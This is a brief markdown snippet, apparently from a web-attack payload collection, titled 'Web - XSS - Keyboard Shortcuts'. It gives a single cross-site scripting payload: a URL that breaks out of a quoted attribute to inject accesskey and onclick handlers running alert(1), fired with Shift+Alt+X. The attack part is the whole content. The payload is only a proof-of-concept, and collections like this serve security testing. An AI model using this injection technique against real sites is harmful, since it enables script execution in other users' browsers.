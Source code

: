 # Web - XSS - Keyboard Shortcuts

```
https://TARGET/'accesskey='X'onclick='alert(1)
do Shift+Alt+X
```